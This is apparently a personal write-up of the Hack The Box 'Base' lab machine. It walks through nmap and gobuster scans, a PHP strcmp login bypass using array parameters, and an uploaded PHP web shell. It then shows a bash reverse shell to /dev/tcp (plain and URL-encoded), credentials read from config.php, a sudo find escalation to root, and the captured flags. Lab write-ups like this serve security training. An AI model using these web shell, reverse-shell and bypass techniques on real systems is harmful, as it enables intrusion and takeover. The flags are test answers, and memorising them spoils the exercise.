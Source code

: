 ```yaml
---
title: "HTB Base"
date: 2023-05-30T16:32:14-07:00
draft: false
---
```


# Base by HTB - Starting Point 2 

IP=10.129.95.184
MyIP=10.10.15.79

## nmap 

### nmap -sCV -oN nmap-CV.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f65c9b38eca75c791c1f181c5246f70b (RSA)
|   256 650cf7db42034607f21289fe11202c53 (ECDSA)
|_  256 b865cd3f34d8026ae318233e77dd8740 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


### nmap -p- -T5 $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


from login dir 

<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }


intercept the login and chang

username=admin&password=admin
to
username[]=admin&password[]=admin

and we are logedin

make file to test upload

echo "<?php phpinfo(), ?>" > test.php

*note to self*: when uploading file don't forget to turn off the poxy or at lest see if it can be fowrded 

## Gobuster 
gobuster dir --url http://$IP/ --wordlist /usr/share/wordlists/dirb/big.txt 
2023/05/30 15:55:37 Starting gobuster in directory enumeration mode

/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.95.184/assets/]   
/forms                (Status: 301) [Size: 314] [--> http://10.129.95.184/forms/]    
/login                (Status: 301) [Size: 314] [--> http://10.129.95.184/login/]    
/server-status        (Status: 403) [Size: 278]                                      
2023/05/30 15:58:22 Finished


## To login

uplad file that has 
 `<?php echo system($_REQUEST['cmd']);?>`
 in file called webshell.php or other
 
 then go to /_uploaded and open the file in the broser and you should get a ?cmd=
 in the url I had to type it in but it worked once i did 
 then using burp intercept, change the request type to POST from GET then send to reptert and url encode /bin/bash -c 'bash -i >& /dev/tcp/&MyIP/PORT 0>&1'
 `%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%35%2e%37%39%2f%35%35%35%35%20%30%3e%26%31%27`
 then set up your lisaner on the PORT 
 then you will get a rshell
 

 www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php

cat /var/www/html/login/config.php

$username = "admin";
$password = "thisisagoodpassword";

ls /home
john

cant su john
so ssh john


##### user.txt
john@base:~$ cat user.txt 
f54846c258f3b4612f78a819573d158e

### Privilege Escalation
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find

john@base:~$ sudo find . -exec /bin/sh \; -quit
\# whoami
root

found at [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

\# cat /root/root.txt
51709519ea18ab37dd6fc58096bea949

this is part of HTB startingpoint tire 2 
thank you 